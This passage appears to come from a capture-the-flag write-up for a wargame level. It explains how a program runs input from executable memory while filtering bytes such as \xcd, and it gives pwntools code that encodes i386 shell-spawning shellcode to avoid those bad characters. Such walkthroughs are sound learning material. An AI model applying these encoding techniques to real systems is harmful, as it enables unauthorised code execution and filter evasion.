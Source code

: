 We can observed 2 new memory regions and their permissions just below `[heap]`.


In summary, the program is just copying 1000 bytes of our input into newcode, just right after the loader. The switchcontext then start executing the newcode. 
With read,write and execution permission, we can put our shellcode into this newcode and let the program run it.

**However, there is a catch!**

In the man page of `strchr`, we see that it locates a particular character in a string and return its location.
The program actually prevents us from injecting shellcode that has characters like '\xcd'.

Remember the shellcode we generated from shellcraft?

'\xcd\x80' is `int 0x80`, an interrupt to execute system call. With this filtered out, our previous shellcode will fail.

We call these undesirable characters as *bad characters*.

### Pwntools shellcraft + encoder

```python
from pwn import *

#asm will convert assembly code to machine code.
shellcode = asm( shellcraft.i386.linux.sh() )
avoids = '\xcd\xe8\x0f\x34\xdb'
encoded = encoders.encoder.encode(shellcode, avoids)

# keep trying random encoding.
while( len(encoded) > 1000):
	encoded = encoders.encoder.encode(shellcode, avoids)

print "FOUND!"
print "Length of encoded:", len(encoded)

assert not any(c in encoded for c in avoids)
print "all avoided"

#p = process(["/levels/level05_alt", encoded])		# the ssh shell doesn't have shellcraft
#p.interactive()

# output the encoded shellcode instead
print encoded.encode('hex')
```

We can tell the encoder what bytes we would like to avoid. The encoder will try its best to represent the shellcode with same resulting action. 
When I used a specific encoder like `encoders.i386.xor.encode` stated in pwntool's documentation, I found out that the length exceeded 1000.

Hence, I tried to use the generic `encode` function that will choose a random algorithm until it fits within 1000 bytes.
